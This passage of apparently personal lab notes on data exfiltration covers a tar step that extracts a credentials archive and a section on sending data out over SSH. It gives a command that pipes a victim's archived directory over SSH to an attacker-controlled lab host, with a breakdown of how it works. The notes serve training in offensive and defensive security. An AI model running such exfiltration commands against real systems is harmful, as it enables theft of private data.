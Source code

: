 ![](/assets/img/Pasted image 20230108232708.png)

<u>Output</u>:
![](/assets/img/Pasted image 20230108232739.png)

##### 6. Unzipping the tar file:
`$ tar xvf task4-creds.tar`

![](/assets/img/Pasted image 20230108232851.png)

##### 7. Extracting the credentials:
![](/assets/img/Pasted image 20230108232925.png)

------
# Exfiltration using SSH

- In this task, we will show how to use SSH protocol to exfiltrate data over to an attacking machine.
- SSH protocol establishes secure channel to interact and move data between the client and server, so all transmission data is encrypted over the network or the Internet.
![](/assets/img/Pasted image 20230108233139.png)

- To transfer data over the SSH, we can use either the `Secure Copy Protocol (SCP)` or the SSH client.
- Let's assume that we don't have the **`SCP`** command available to transfer data over SSH.
- Thus, we will focus more on the SSH client in this task.

<u>Pre-requisite for the Attacker</u>:
- As we mentioned earlier, an attacker needs to control a server, which in this case has an SSH server enabled, to receive the exfiltrated data.

**Note**: We will be using the `JumpBox` as our SSH server in this case. (since I don't know the credentials of `AttackBox`, I just used the `JumpBox` instead where to send the archived,exfiltrated data.)

##### 0. Assumption: we have gained access to sensitive data that must be transmitted securely. Let's connect to the `victim1` or `victim2` machine::
![](/assets/img/Pasted image 20230108233502.png)

##### 1. Using the `tar` command again in the `victim1` user to archive data and then transfer it:
`$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"`

	Breakdown:
	1. "tar" : used to create an archive file of 'task5' directory.
	2. Passes the archived file over the SSH. SSH clients provide a way to execute a single command without having a full session.
	3. We passed the command that must be executed in double quotations, "cd /tmp/; tar xpf". In this case, we change the directory and unarchive the passed file.
